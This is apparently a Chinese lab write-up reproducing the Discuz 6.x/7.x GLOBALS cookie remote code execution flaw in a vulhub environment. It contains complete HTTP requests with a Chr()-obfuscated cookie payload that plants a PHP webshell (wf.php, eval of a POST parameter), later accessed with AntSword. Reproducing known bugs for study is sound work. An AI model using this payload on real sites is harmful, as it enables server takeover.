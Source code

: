 # 0x00 软件介绍
Discuz：一款流行的论坛程序

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

切换到对应目录下  
docker-compose up -d  
启动后，访问[http://172.16.35.128:8080/install/](http://172.16.35.128:8080/install/)来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root

# 0x03 利用条件
无

# 0x04 影响版本
Discuz 7.x 6.x

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

安装成功后，直接找一个已存在的帖子，向其发送数据包，将Cookie中的数据改为
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
```
请求如下
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
Cookie中的内容变为  
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
发送的请求如下  
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
然后使用蚁剑连接，地址http://172.16.35.128:8080/wf.php 密码lalala  
成功连接

# 0x06 踩坑记录
无

# 0x07 参考链接
无
